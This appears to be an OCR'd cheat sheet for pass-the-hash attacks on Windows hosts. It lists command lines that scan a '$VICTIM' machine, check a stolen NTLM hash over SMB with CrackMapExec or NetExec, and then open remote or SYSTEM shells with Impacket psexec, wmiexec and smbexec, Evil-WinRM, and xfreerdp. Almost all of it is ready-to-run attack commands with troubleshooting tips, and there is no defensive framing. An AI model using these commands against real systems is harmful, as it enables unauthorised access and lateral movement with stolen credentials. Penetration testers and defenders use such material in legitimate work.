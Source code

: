 1) Quick port check
```bash
nmap -Pn -p 445,139,5985,5986,3389 -sT -sV $VICTIM
```

2) Validate the hash with SMB (CME/NetExec)
```bash
# CrackMapExec
crackmapexec smb $VICTIM -u $USER -H $NT -d $DOMAIN
crackmapexec smb $VICTIM -u $USER -H $NT -d $DOMAIN -x "whoami && hostname"

# NetExec (CME successor)
nxc smb $VICTIM -u $USER -H $NT -d $DOMAIN
nxc smb $VICTIM -u $USER -H $NT -d $DOMAIN -x "whoami && hostname"
```

3) Impacket psexec (interactive SYSTEM shell via service)
```bash
# psexec; specify -hashes LM:NT. If LM unknown, you can use just :NT
psexec.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM

# If you need to force a specific DC (domain envs), add:
psexec.py -hashes $LM:$NT -dc-ip $DCIP $DOMAIN/$USER@$VICTIM

# If you see garbled output, add:
psexec.py -hashes $LM:$NT -codec utf-8 $DOMAIN/$USER@$VICTIM
```

4) Impacket wmiexec (semi-interactive, fileless WMI)
```bash
wmiexec.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
# Optional:
wmiexec.py -hashes $LM:$NT -dc-ip $DCIP $DOMAIN/$USER@$VICTIM
```

5) Impacket smbexec (alternate SMB exec method)
```bash
smbexec.py -hashes $LM:$NT $DOMAIN/$USER@$VICTIM
```

6) Evil-WinRM (PowerShell over WinRM)
```bash
# WinRM HTTP (5985)
evil-winrm -i $VICTIM -u $USER -H $NT

# WinRM HTTPS (5986)
evil-winrm -i $VICTIM -u $USER -H $NT -S

# If connection stalls, verify WinRM is enabled and port open, or try domain-less:
evil-winrm -i $VICTIM -u $USER -H $NT -r $DOMAIN
```

7) RDP using NTLM hash (xfreerdp)
```bash
# RDP with Pass-the-Hash; requires NLA and RDP enabled on target
xfreerdp /v:$VICTIM /u:$USER /d:$DOMAIN /pth:$NT /cert:ignore +clipboard
# For local accounts, try /d:. or omit /d
```
